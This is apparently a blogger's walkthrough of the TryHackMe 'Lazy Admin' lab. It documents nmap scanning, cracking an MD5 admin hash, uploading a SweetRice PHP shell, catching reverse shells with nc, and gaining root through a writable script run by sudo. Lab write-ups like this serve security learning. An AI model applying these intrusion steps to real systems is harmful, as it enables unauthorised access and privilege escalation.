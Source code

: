 ```yaml
---

title: Walkthrough - Lazy Admin
published: true
---
```


Easy linux machine to practice your skills

Linux/Exploit

[https://tryhackme.com/room/lazyadmin](https://tryhackme.com/room/lazyadmin)

* * *

## Enumerate

```shell
sudo nmap -sC -sV -O 10.10.154.224 -p22,80  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-12 14:01 PDT
Nmap scan report for 10.10.154.224
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.10 - 3.13 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.11 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.23 seconds
```

* * * 

## Exploit

1. ``searchsploit sweetrice``
2. ``cat /usr/share/exploitdb/exploits/php/webapps/40718.txt``
3. download mysql backup and cat
4. password hash for admin/manager MD5 42f749ade7f9e195bf475f37a44cafcb
5. feed john ``john admin.manager.hash --format=Raw-MD5 --wordlist=/usr/share/seclists/Passwords/rockyou.txt``
6. Password123

- upload php shellcode https://www.exploit-db.com/exploits/40700
- access shellcode http://10.10.154.224/content/inc/ads/shellcode.php

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Lazy-Admin]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.2.127.225] from (UNKNOWN) [10.10.154.224] 35016
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 01:46:23 up  2:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

- ``python -c 'import pty; pty.spawn("/bin/bash")'``
- Check for easy privesc:

```shell
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

- so this is running a backup.pl which is running a /etc/copy.sh
- we can replace copy.sh with our ip and get another rev shell running ``/usr/bin/perl /home/itguy/backup.pl``

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Lazy-Admin]
└─$ nc -lvnp 10000                                                                                       
listening on [any] 10000 ...
# whoami
root
# pwd
/home/itguy
# cd /root
# ls -las
total 28
4 drwxr-x---  4 root root 4096 iul 14 19:52 .
4 drwxr-xr-x 23 root root 4096 nov 29  2019 ..
0 lrwxrwxrwx  1 root root    9 nov 29  2019 .bash_history -> /dev/null
4 -rw-r--r--  1 root root 3106 oct 22  2015 .bashrc
4 drwx------  2 root root 4096 feb 27  2019 .cache
4 drwxr-xr-x  2 root root 4096 nov 29  2019 .nano
4 -rw-r--r--  1 root root  148 aug 17  2015 .profile
4 -rw-r--r--  1 root root   38 nov 29  2019 root.txt
# cat root.txt
```


* * * 